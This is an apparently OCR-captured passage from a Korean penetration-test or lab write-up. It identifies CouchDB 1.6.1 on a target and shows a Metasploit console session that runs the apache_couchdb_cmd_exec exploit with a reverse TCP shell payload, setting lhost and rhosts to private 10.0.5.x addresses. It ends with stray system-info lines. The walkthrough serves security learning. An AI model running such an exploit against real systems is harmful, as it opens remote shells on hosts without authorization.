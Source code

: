 
- 타겟 호스트의 CouchDB의 버전이 v1.6.1 이므로 해당 취약점 적용 가능하다는 것을 확인했다.

- `exploit/linux/http/apache_couchdb_cmd_exec`이 존재하여 `msfconsol`을 이용하여 초기 침투를 진행했다.

  

msfconsol - 초기 침투

  

```

msf6 > use exploit/linux/http/apache_couchdb_cmd_exec

[*] Using configured payload linux/x64/shell_reverse_tcp

msf6 exploit(linux/http/apache_couchdb_cmd_exec) > show targets

  

Exploit targets:

=================

  

Id Name

-- ----

=> 0 Automatic

1 Apache CouchDB version 1.x

2 Apache CouchDB version 2.x

  
  

msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set target 1

target => 1

  

msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set lhost 10.0.5.121

lhost => 10.0.5.121

  

msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set rhosts 10.0.5.122

rhosts => 10.0.5.

  

msf6 exploit(linux/http/apache_couchdb_cmd_exec) > run

```


[01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
[01]: Amazon Elastic Network Adapter
[01]: 10.0.5.116
[02]: fe80::4c64:ec7d:fde5:903c